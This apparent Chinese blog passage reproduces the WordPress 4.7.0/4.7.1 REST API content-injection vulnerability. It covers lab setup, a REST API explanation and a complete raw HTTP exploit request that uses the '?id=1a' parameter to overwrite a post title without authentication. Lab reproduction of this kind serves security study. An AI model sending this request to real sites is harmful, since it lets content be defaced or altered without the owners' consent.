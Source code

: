 >[wordpress -4.7.0](https://wordpress.org/wordpress-4.7.zip)

>[wordpress -4.7.1](https://wordpress.org/wordpress-4.7.1.zip)

下载并解压到网站主目录（默认路径为<kbd>/var/www/html</kbd>），访问`http://127.0.0.1/wordpress` 按提示进行安装。
安装完成后按下图设置wordpress站点为固定链接。

{% capture images %}
	http://i4.buimg.com/589989/19cccef2abf61906.png
{% endcapture %}
{% include gallery images=images caption="" cols=1 %}

如需加载`mod_rewrite`模块，在Apache主配置文件中添加

`LoadModule rewrite_module /usr/lib/apache2/modules/mod_rewrite.so`


保存后记得重启Apache。

## 0x02  漏洞复现

###  0x02x01  关于REST-API

REST API到底是个什么东西？有什么用呢？
我查看了REST API的<a href=https://developer.wordpress.org/rest-api/>官方文档</a>，REST API提供了下列几种基本功能（<kbd>C</kbd><kbd>R</kbd><kbd>U</kbd><kbd>D</kbd>大家都懂）

{% capture images %}
	http://i4.buimg.com/589989/1a03bbdf062f236b.png
{% endcapture %}
{% include gallery images=images caption="" cols=1 %}

通过不同的http请求方式GET、POST、DELETE来发送或接受JSON对象与站点进行交互。（seebug分析文章中称<kbd>PUT</kbd>方法触发Update功能，而官方文档并没有提及PUT方法，Definition显示Update功能是通过<kbd>POST</kbd>方法来触发的。）

我们来演示一下<kbd>List Posts</kbd>功能：

示例
`$ curl http://demo.wp-api.org/wp-json/wp/v2/posts`

在本环境中，访问以下链接可获取所有文章信息
`http://127.0.0.1/wordpress/index.php/wp-json/wp/v2/posts`
效果如下图：

{% capture images %}
	http://i4.buimg.com/589989/2899fe40cdcacc2e.png
{% endcapture %}
{% include gallery images=images caption="" cols=1 %}

### 0x02x02  漏洞演示

这里借助<kbd>BurpSuite</kbd>使用<kbd>Update</kbd>功能来修改id为1的文章标题为<kbd>Attack test</kbd>

{% highlight html %}

POST /wordpress/index.php/wp-json/wp/v2/posts/1?id=1a HTTP/1.1
Host: 101.200.61.215
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Connection: close
Content-Type: application/json
Content-Length: 23

{"title":"Attack test"}

{% endhighlight %}
